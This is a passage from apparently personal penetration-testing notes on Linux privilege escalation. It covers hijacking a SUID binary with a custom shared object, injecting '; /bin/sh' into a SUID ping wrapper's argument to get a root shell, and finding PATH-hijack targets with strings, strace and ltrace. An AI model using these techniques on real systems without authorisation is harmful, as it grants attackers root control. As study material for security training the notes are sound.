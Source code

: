     ```
    gcc -shared -fPIC -o filname.so filename.c
    ```
5.  Run the SUID executable to get a root shell:

    ```
    $ /usr/local/bin/suid-so
    # id
    uid=0(root) gid=1000(user) ..
    ```

### SUID PingSys

Run the following command on our shell to escalate to a root shell:

```
/usr/bin/pingsys '127.0.0.1; /bin/sh'
```

### PATH Environment Variable

A list of directories where the shell should look for applications is stored in the PATH environment variable. If a program attempts to run another program but only specifies the program name rather than the absolute path, the shell will look through the PATH directories until it finds it. We can tell the shell to hunt for programs in a directory we can write to first because a user has complete control over their PATH variable.

* Relative Path: id
* Absolute Path: /usr/bin/id

#### Finding Vulnerable Programs

If software tries to run another program, the name of that application is almost certainly stored as a string in the executable file. We can perform inspect the binaries.&#x20;

{% embed url="https://wixnic.gitbook.io/hacknotes/reversing/inspecting-binaries" %}

Running strings against a file:

```
strings /path/to/file
```

Running strace against a command:

```
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running ltrace against a command:

```
ltrace <command>
```

#### Finding SUID/SGID Vulnerable Privilege Escalation
